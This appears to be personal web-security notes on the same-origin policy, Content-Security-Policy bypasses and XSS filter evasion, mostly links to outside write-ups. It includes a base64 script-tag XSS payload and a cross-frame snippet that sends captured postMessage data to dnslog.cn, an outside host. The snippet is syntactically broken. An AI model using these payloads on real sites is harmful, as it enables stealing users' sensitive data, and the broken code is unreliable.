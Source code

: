 # Striction
## SOP
  __Same-Origin-Policy__



## CSP
   __Content-Security-Policy__, is a mechanism to define which resources can be fetched out or executed by a web page. In other words, it can be understood as a policy that decides which scripts, images, iframes can be called or executed on a particular page from different locations. Content Security Policy is implemented via response headers or meta elements of the HTML page. From there, it’s browser’s call to follow that policy and actively block violations as they are detected.
- [Bypass of CSP](https://csplite.com/csp320/)
- [content-security-policy-csp-bypass-techniques](https://bhavesh-thakur.medium.com/content-security-policy-csp-bypass-techniques-e3fa475bfe5d)
```
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```
- [bypassing-csp-with-policy-injection](https://portswigger.net/research/bypassing-csp-with-policy-injection)
- Data protocol allowed: xss by iframe, combining postMessage to steal info
```html
<html>
<body>
<iframe id='attack' src="http://get_method_api_response_contains_sensitive_info/api"></iframe>
<script type="text/javascript">

var frame = document.getElementById("attack");
frame.addEventListener("load", function(){
  setTimeout(sendInfo,600)}
  )
 
function getInfo{
var payload = btoa(<script>                     #data protocol
    window.addEventListener(
     function(event)
       {xhr = new XMLHttpRequest();
        xhr.open("GET","http://dnslog.cn?message="+ event.data);
        xhr.send(null)}
     )
}     

function sendInfo{
 frames[0].postMessage("")
}
</script>
</body>
</html>
```
- [ClickJacking](https://resources.infosecinstitute.com/topic/bypassing-same-origin-policy-part-3-clickjacking-cursorjacking-filejacking/)


# Filter
- keyword
- characteristic
  - [iframe srcdoc](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xss-cross-site-scripting/iframes-in-xss-and-csp.md#iframes-in-xss)
  - /xxx/.source
- 
